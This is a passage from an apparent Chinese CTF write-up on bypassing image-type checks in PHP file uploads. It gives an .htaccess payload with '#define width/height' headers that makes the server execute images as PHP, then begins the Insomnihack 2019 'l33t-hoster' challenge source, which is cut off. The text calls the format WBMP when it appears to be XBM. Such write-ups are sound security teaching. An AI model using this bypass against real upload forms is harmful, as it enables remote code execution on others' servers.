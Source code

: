 有时候，在图片上传区会使用 `getimagesize()` 等函数对上传的图片进行尺寸限制，只允许上传指定大小尺寸的图片，并且会使用 `exif_imagetype()` 函数读取第一个字节并检查其图片类型。此时如果可以上传 .htaccess 来解析图片的话我们还需要让 .htaccess 的尺寸和经过 `exif_imagetype()` 检测后的结果符合题目要求。

我们可以使用 `exif_imagetype()` 函数支持的 WBMP 图像类型进行绕过。WBMP（Wireless Bitmap）是一种移动计算机设备使用的标准图像格式，是一种纯文本二进制图像格式的图片，实例如下：

```
#define test_width 16
#define test_height 7
static char test_bits[] = `{`
0x13, 0x00, 0x15, 0x00, 0x93, 0xcd, 0x55, 0xa5, 0x93, 0xc5, 0x00, 0x80,
0x00, 0x60 `}`;
```

可以看到 WBMP 图像的开头可以使用 `#` 设置图像的尺寸大小，这正符合我们的要求。所以假设题目限制我们上传的图片尺寸必须为1337×1337，那么我们在上传.htaccess时便可以用 WBMP 来绕过，例如：

```
#define width 1337
#define height 1337
AddType application/x-httpd-php images.png
```

### <a class="reference-link" name="%5BInsomnihack%20Teaser%202019%20Web%5Dl33t-hoster"></a>[Insomnihack Teaser 2019 Web]l33t-hoster

进入题目，是一个上传页面：

[![](https://p1.ssl.qhimg.com/t01b1774b7338c975f2.png)](https://p1.ssl.qhimg.com/t01b1774b7338c975f2.png)

访问 /?source 得到源码：

```
&lt;?php
if (isset($_GET["source"])) 
    die(highlight_file(__FILE__));

session_start();

if (!isset($_SESSION["home"])) `{`
    $_SESSION["home"] = bin2hex(random_bytes(20));
`}`
$userdir = "images/`{`$_SESSION["home"]`}`/";
if (!file_exists($userdir)) `{`
    mkdir($userdir);
`}`

$disallowed_ext = array(
    "php",
    "php3",
    "php4",
    "php5",
    "php7",
    "pht",
    "phtm",
    "phtml",
    "phar",
    "phps",
);


if (isset($_POST["upload"])) `{`
    if ($_FILES['image']['error'] !== UPLOAD_ERR_OK) `{`
        die("yuuuge fail");
    `}`

```